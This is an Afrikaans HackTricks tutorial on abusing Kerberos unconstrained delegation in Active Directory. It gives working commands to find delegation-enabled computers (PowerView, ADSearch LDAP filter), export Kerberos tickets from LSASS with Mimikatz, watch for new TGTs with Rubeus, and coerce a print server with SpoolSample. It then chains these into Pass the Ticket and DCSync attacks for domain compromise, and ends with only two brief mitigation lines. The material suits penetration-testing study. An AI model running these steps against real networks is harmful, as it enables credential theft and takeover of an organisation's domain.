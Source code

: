 # Onbeperkte Afvaardiging

{{#include ../../banners/hacktricks-training.md}}

## Onbeperkte afvaardiging

Dit is 'n kenmerk wat 'n Domein Administrateur kan stel op enige **Rekenaar** binne die domein. Dan, wanneer 'n **gebruiker aanmeld** op die Rekenaar, sal 'n **kopie van die TGT** van daardie gebruiker **binne die TGS** wat deur die DC **gestuur word en in geheue in LSASS gestoor word**. So, as jy Administrateur regte op die masjien het, sal jy in staat wees om die **kaartjies te dump en die gebruikers te vervang** op enige masjien.

So as 'n domein admin aanmeld op 'n Rekenaar met die "Onbeperkte Afvaardiging" kenmerk geaktiveer, en jy het plaaslike admin regte op daardie masjien, sal jy in staat wees om die kaartjie te dump en die Domein Admin enige plek te vervang (domein privesc).

Jy kan **Rekenaar voorwerpe met hierdie attribuut vind** deur te kyk of die [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) attribuut [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>) bevat. Jy kan dit doen met 'n LDAP filter van ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, wat is wat powerview doen:

<pre class="language-bash"><code class="lang-bash"># Lys onbeperkte rekenaars
## Powerview
Get-NetComputer -Unconstrained #DCs verskyn altyd maar is nie nuttig vir privesc nie
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Eksporteer kaartjies met Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Aanbevole manier
kerberos::list /export #Nog 'n manier

# Monitor aanmeldings en eksport nuwe kaartjies
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Kontroleer elke 10s vir nuwe TGTs</code></pre>

Laai die kaartjie van Administrateur (of slagoffer gebruiker) in geheue met **Mimikatz** of **Rubeus vir 'n** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Meer inligting: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Meer inligting oor Onbeperkte afvaardiging in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Forceer Verifikasie**

As 'n aanvaller in staat is om 'n **rekenaar wat toegelaat word vir "Onbeperkte Afvaardiging" te kompromitteer**, kan hy 'n **Druk bediener** **mislei** om **outomaties aan te meld** teen dit **en 'n TGT in die geheue van die bediener te stoor**.\
Dan kan die aanvaller 'n **Pass the Ticket aanval uitvoer om** die gebruiker se Druk bediener rekenaarrekening te vervang.

Om 'n druk bediener teen enige masjien aan te meld, kan jy [**SpoolSample**](https://github.com/leechristensen/SpoolSample) gebruik:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
As die TGT van 'n domeinbeheerder is, kan jy 'n[ **DCSync-aanval**](acl-persistence-abuse/#dcsync) uitvoer en al die hashes van die DC verkry.\
[**Meer inligting oor hierdie aanval in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Hier is ander maniere om te probeer om 'n outentisering te dwing:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Versagting

- Beperk DA/Admin aanmeldings tot spesifieke dienste
- Stel "Rekening is sensitief en kan nie gedelegeer word nie" vir bevoorregte rekeninge.

{{#include ../../banners/hacktricks-training.md}}

